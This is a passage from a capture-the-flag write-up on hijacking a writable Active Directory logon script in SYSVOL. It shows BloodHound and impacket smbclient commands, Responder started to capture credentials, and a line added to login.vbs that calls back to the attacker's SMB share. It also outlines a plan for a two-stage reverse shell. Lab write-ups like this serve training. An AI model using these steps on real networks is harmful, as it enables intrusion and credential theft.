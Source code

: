What we are interested in is:
* Logon scripts are usually stored in the `SYSVOL` Share
* Logon scripts can be either pinned to a user or defined as a Group policy
* If we can overwrite the script, we get code execution when the user logs in

A quick bloodhound check will give us a clue:
```bash
$ bloodhound.py --zip -c All -d "$DOMAIN" -u "$USER" -p "$PASSWORD" -ns $IP
[...]
```
After clicking through different users, we see that `Amelia.Griffiths` has the 
login script.
![Logon Script](/images/vulnlab_baby2/logonscript.png)


## 4. Exploiting the logon script
So we know that the login script is 
```bash
$ smbclient.py "$DOMAIN"/"$USER":"$PASSWORD"@"$TARGET"
Impacket v0.12.0.dev1+20240502.235035.cb8467c - Copyright 2023 Fortra

Type help for list of commands
# use SYSVOL
# cd baby2.vl/scripts
# ls
drw-rw-rw-          0  Tue Aug 22 21:28:27 2023 .
drw-rw-rw-          0  Tue Aug 22 19:43:55 2023 ..
-rw-rw-rw-        992  Sat Sep  2 16:55:51 2023 login.vbs
# get login.vbs
# cat login.vbs
Sub MapNetworkShare(sharePath, driveLetter)
[...]

MapNetworkShare "\\dc.baby2.vl\apps", "V"
MapNetworkShare "\\dc.baby2.vl\docs", "L"
```

Ughh, VBA. This is going to be a debugging disaster (it was not, but the powershell reverse shell was).
Here is now the steps to prevent future catastrophes:
1. Check if script is executed by using inbuilt `MapNetworkShare`
2. Test reverse shell locally
3. Create a 2-stage reverse shell that first downloads the payload from a web server and then executes it. This way, we can see if the download failed or the payload.
4. Upload it and pray

#### 1. Check if script is executed
To see if the script actually gets executed we start a `Responder.py` 
```bash
Responder.py --interface "tun0"
```
and then add a line so the target tries to connect to our "smbshare"
```bash
$ cat login.vbs
...
MapNetworkShare "\\10.8.3.211\X", "X"
```
and upload it:
```bash
smbclient.py "$DOMAIN"/"$USER":"$PASSWORD"@"$TARGET"
Impacket v0.12.0.dev1+20240502.235035.cb8467c - Copyright 2023 Fortra

Type help for list of commands
# use SYSVOL
# cd baby2.vl/scripts
```